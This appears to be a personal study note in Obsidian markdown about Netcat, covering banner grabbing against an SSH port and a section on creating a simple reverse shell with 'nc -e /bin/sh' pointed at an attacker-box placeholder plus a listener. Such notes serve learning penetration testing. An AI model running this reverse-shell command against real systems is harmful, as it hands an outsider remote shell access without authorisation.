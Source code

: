 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

[Netcat](https://linux.die.net/man/1/nc), *ncat*, or *nc* is a network utility for interacting with TCP/UDP ports.

## Connecting to a TCP port
```shell
nc [IP] [PORT]

$ nc 10.0.2.4 22

SSH-2.0-OpenSSH_8.4p1 Debian-3
```
This returns the banner presented, this is called *banner grabbing* which allows us to identify a service running on a particular port.

> [PowerCat](https://github.com/besimorhino/powercat) is the PowerShell equivalent of Netcat.

![[Socat#socat]]

## Create a simple reverse shell
```shell
# On victim machine
nc -e /bin/sh [Atkbox IP] [Port]

# On Atkbox
nc -lvp [Port]
```
- *-e* : binds a shell to a port
- *-l* : specifies to listen
- *-v* : more vebose
- *-p* : specifies the source port